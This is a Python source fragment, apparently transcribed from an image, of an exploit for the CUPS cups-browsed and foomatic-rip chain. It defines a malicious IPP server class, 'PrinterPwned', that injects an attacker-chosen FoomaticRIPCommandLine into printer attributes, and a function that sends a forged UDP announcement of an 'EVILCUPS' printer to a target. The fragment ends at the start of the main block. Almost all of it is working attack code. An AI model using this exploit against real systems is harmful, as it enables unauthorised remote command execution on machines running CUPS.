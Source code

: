 ```python
    def __init__(self, server_instance):
        self.server_instance = server_instance
        self.server_thread = None

    def __enter__(self):
        print(f"Starting IPP server at {self.server_instance.server_address}")
        self.server_thread = threading.Thread(target=self.server_instance.serve_forever, daemon=True)
        self.server_thread.start()
        return self

    def __exit__(self, exc_type, exc_value, traceback):
        print("Stopping the server...")
        self.server_instance.shutdown()
        self.server_thread.join()

# Malicious printer class
class PrinterPwned(StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(PrinterPwned, self).__init__()

    def handle_postscript(self, req, psfile):
        print("Simulated postscript processing. Payload delivered.")

    def printer_list_attributes(self):
        attributes = super().printer_list_attributes()
        attributes.update({
            (SectionEnum.printer, b'printer-more-info', TagEnum.uri): [
                f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()
            ]
        })
        return attributes

    def operation_printer_list_response(self, req, _psfile):
        print("\ntarget connected, sending payload ...")
        attributes = self.printer_list_attributes()
        return IppRequest(self.version, StatusCodeEnum.ok, req.request_id, attributes)

# Send a malicious UDP packet to announce the malicious printer
def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
    print(f"Sending UDP packet to {ip}:{port}...")
    printer_type = 2
    printer_state = '3'
    printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'
    printer_location = '"Pwned Location"'
    printer_info = '"Pwned Printer"'
    printer_model = '"HP LaserJet 1020"'
    packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(packet.encode('utf-8'), (ip, port))

def run(server):
    with IPPServerManager(server):
        try:
            while True:
                time.sleep(0.5)
        except KeyboardInterrupt:
            print("Server interrupted.")

if __name__ == "__main__":
```